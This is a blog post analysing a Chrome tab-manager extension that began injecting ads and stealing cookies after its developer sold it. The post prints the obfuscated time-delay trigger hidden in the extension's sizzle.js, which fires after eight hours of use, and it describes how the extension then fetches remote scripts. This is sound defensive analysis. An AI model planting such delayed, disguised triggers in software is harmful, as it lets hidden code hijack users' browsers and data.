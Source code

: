```yaml
---
title: "How a chrome extension turned to the Dark Side"
date: 2018-05-14
tags: ["chrome", "extension", "browser", "malicious extension"]
draft: false
---
```

*This is a short story and malware analysis of a chrome extension that served people well then the developer sell it to the malicious advertisement company.*
### Discovery
As you may know, recently I have published an extension (yes! one more tab manager for the world) [SplitUp! - Tab Manager](https://chrome.google.com/webstore/detail/splitup-tab-manager/bhoodecbejheonelhikcfahgpgahffmf). I was looking for a way to improve it and Chrome Web Store is a great place to see other extensions to get inspired for new ideas. I searched "tab manager" to get a general list, then I saw this extension with 50K+ users, well the name of the extension wasn't so hard to guess "Tab Manager" 🤔 but I guess this is what people search.
![Tab Manager extension screenshot on web store](/images/screenshot.png)
### Bad smell
I checked screenshots and decided read reviews to see what people say about it. Well, they were not great. Apparently, from the latest update, the extension showed some malicious behavior such as injecting ads into users' search result without users' contest.  It seemed like many people have already reported the extension but no action has been taken until recently it has been removed. It says usually it takes 2-3 weeks for the extension to be removed from the store. The good news is that after Google flags an extension as a malware, the extension automatically being removed from the current users' browsers. Before it got deleted, I managed to do some analyzes on it and try to see what exactly this extension tries to achieve and how. Since I wasn't really sure what exactly other than ads injection this extension capable of. I decided to utilize my virtual machine for this and install it there.
![Review about Tab Manager on web store](/images/review1.png)
![Review about Tab Manager on web store](/images/review2.png)
### Deep down to the code
First of all, the extension doesn't act maliciously for a while. Once you install it, it stores the current date in the local storage, here the piece of code that was taken from the source
```
chrome.runtime.onInstalled.addListener(function() {
  chrome.storage.local.set({
    time: new Date().getTime()
  });
});
```
This was interesting, at the beginning I didn't quite get why this weird date saves to the storage and no ads showing in my search result as reported by users and the extension made no network activity. The extension also blocked [Content Security Policy](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP) and [X-Frame-Options](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options) which could mean the extension uses some kind of Command and Control technique to get instruction or get some kind of javascript file from an external source. I decided to dig in a bit more which led me to think that there must some code checking for time or something. 
#### It is there
"Tab Manager" uses React to render UI and Sizzle CSS Selector. After Searching the files for a while for the suspicious behavior I came across abnormal local storage check in sizzle.js :
```
chrome.storage.local.get('time', function (res) {
      if (res.time) {
        var time = (new Date().getTime() - res.time) / 3600000;
        if (time >= 8) {
          slzzle[1][
            (function (nextNode) {
              var attrNames = nextNode[0].attr[index];
              return attrNames.replace(/\>/g, '|').split('|')[1];
            })(slzzle)
          ][
            []
              .concat(appendTypes)
              .concat(nodeType[0].replace('c', nodeType[index][0].toUpperCase()))
              .join('')
          ](element);

          // remove after created for pseudo elements
          element[nodeType[1]].removeChild(slzzle[index].tag);
        }
      }
    });
  })(xpathcurcssesace(document));
```
Boom! this is it! As you see the code checks if a user has been using the extension for a while since I was a new user it behaved as expected. I brought forward my machine's time to a year early and gave a try to extension again.
### Request to the dark side
As expected, the extension started to make an HTTP request to an external source and downloaded a 665KB javascript file which instructs the extension to inject ads, steal and set cookies and so on.
![malicious http request by the extension](/images/httprequest.png)
It is 10913 lines code inside the file and I am not going to into details, a few interesting points are a huge amount of HTTP request and new javascript files are being downloaded based on the website user visits. They made sure that sure will have a native ads experience on every page, hence in every website a new instruction is being downloaded. Every click is recorded in cookies and also send to remote URL. The huge number of websites are covered, from Russian email services mail.ru, yandex.ru to almost all social networks, search engines etc.
![url check for facebook](/images/fb.png)  


In case a user is on the bitconnect registration form it injects ads to the form 
![registration form](/images/registration.png)  


It seems like some domains are ignored such as paypal, google drive and .gov domains. 
![ignored domains](/images/ignoredDomains.png)
## Conclusion
Unfortunately, these days some developers sell their extension after it gains popularity. This is a huge risk since already downloaded extension will get updated with malicious code without user's contest. It has been showing that Chrome Web Store automatic code check is not perfect for detecting this kind of malicious behaviors. The best solution seems to be conscious and uses an extension that is come from a reliable source or open-source. Although, this extension was an open-source project and it still managed to inject people's browser activities.


